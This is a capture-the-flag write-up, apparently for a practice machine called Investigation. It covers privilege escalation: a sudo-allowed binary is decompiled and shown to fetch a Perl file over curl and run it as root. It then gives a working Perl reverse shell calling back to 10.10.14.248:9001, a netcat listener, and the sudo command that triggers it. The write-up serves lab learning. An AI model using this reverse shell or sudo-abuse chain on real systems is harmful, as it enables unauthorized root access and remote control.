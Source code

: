 1) I see the list user's privileges:
```
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

2) I open a web server in the target machine:
```
smorton@investigation:~$ cd /usr/bin/
smorton@investigation:/usr/bin$  python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

3) I download the binary:
```
┌──(kali㉿kali)-[~]
└─$ mkdir smorton                            
 
┌──(kali㉿kali)-[~]
└─$ cd smorton        
  
┌──(kali㉿kali)-[~/smorton]
└─$ wget http://10.10.11.197:1234/binary
--2023-02-26 15:47:46--  http://10.10.11.197:1234/binary
Connecting to 10.10.11.197:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19024 (19K) [application/octet-stream]
Saving to: ‘binary’

binary                                                     100%[=======================================================================================================================================>]  18.58K  --.-KB/s    in 0.05s   

2023-02-26 15:47:46 (390 KB/s) - ‘binary’ saved [19024/19024]

┌──(kali㉿kali)-[~/smorton]
└─$ file binary                                                                                                                           
binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a703575c5c944bfcfea8a04f0aabaf0b4fa9f7cb, for GNU/Linux 3.2.0, not stripped

```

4) I upload the binary file to an [online decompiler](https://dogbolt.org/). I  see what the source code.
5) I extract the program's main function:
```cpp
int32_t main(int32_t argc, char** argv, char** envp)  
{  
if (argc != 3)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
if (getuid() != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
if (strcmp(argv[2], "lDnxUysaQn") != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
puts("Running... ");  
FILE* rax_8 = fopen(argv[2], &data_2027);  
int64_t rax_9 = curl_easy_init();  
int32_t var_40 = 0x2712;  
curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712);  
int32_t var_3c = 0x2711;  
curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711);  
int32_t var_38 = 0x2d;  
curl_easy_setopt(rax_9, 0x2d, 1, 0x2d);  
if (curl_easy_perform(rax_9) != 0)  
{  
puts("Exiting... ");  
exit(0);  
/* no return */  
}  
int64_t rax_25 = snprintf(nullptr, 0, &data_202a, argv[2]);  
char* rax_28 = malloc((rax_25 + 1));  
snprintf(rax_28, (rax_25 + 1), &data_202a, argv[2]);  
int64_t rax_37 = snprintf(nullptr, 0, "perl ./%s", rax_28);  
char* rax_40 = malloc((rax_37 + 1));  
snprintf(rax_40, (rax_37 + 1), "perl ./%s", rax_28);  
fclose(rax_8);  
curl_easy_cleanup(rax_9);  
setuid(0);  
system(rax_40);  
system("rm -f ./lDnxUysaQn");  
return 0;  
}
```

--> First, it checks if three input parameters have been sent and exits if not.
--> Then in the second if , check if a root user calls it  and exit if not.
--> In the third if, it checks if the third parameter is equal to the string lDnxUysaQn and if not 
      it exits.
--> Finally, it opens a file with curl specified by the second parameter and reads and executes 
     it with perl.

6) I create a file with inside the reverse shell in php, I use this site to write the reverse shell "[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)"  
```
┌──(kali㉿kali)-[~/smorton]
└─$ nano shell.pl     
  
┌──(kali㉿kali)-[~/smorton]
└─$ cat shell.pl 
```
```perl
use Socket;  
$i="10.10.14.248";  
$p=9001;  
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));  
if(connect(S,sockaddr_in($p,inet_aton($i)))){  
open(STDIN,">&S");open(STDOUT,">&S");  
open(STDERR,">&S");exec("/bin/bash -i");  
};
```

7) I open a listening port:
```
┌──(kali㉿kali)-[~/smorton]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
```

8) In the local machine open a web server:
```
┌──(kali㉿kali)-[~/smorton]
└─$ python3 -m http.server 3333
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
```

9) Then in the target machine I execute the binary file:
```
smorton@investigation:/$ sudo /usr/bin/binary 10.10.14.248:3333/shell.pl  lDnxUysaQn 
Running... 
```
